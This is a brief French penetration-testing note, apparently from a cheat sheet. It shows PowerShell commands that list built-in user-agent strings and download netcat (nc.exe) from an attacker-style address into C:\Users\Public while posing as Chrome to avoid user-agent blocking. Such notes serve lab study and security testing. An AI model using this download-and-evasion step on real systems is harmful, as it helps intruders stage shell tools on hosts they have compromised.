 # HTTP
useragent peut être bloqué. Utiliser un user agent commun

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ powershell
#Lister
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
iwr http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
